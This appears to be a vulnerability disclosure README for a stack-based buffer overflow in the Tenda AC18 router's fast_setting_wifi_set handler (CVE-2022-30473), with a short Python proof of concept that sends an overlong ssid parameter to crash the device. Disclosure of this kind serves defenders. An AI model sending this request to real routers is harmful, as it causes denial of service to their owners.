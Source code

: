 # Tenda Router AC18 Vulnerability

This vulnerability lies in the `/goform/fast_setting_wifi_set` page which influences the lastest version of Tenda Router AC18. (The latest version is [AC18_V15.03.05.19(6318)](https://www.tenda.com.cn/download/detail-2683.html))

## Vulnerability Description

There is a **stack-based buffer overflow** vulnerability in function `form_fast_setting_wifi_set`.

In function `form_fast_setting_wifi_set` it reads user provided parameter `ssid` into `src`, and this variable is passed into function `strcpy` without any length check, which may overflow the stack-based buffer `s`.

![Vulnerability Function](./vuln.png)

So by requesting the page `/goform/fast_setting_wifi_set`, the attacker can easily perform a **Deny of Service Attack**.

## PoC

```python
import requests

IP = "10.10.10.1"
url = f"http://{IP}/goform/fast_setting_wifi_set?"
url += "ssid=" + "s" * 100

response = requests.get(url)
```

## Timeline

* 2022-05-06: Report to CVE & CNVD;
* 2022-05-26: CVE ID assigned (CVE-2022-30473)

## Acknowledge

Credit to [@peanuts](https://github.com/peanuts62) and [@cylin](https://github.com/lcyfrank) from IIE, CAS.
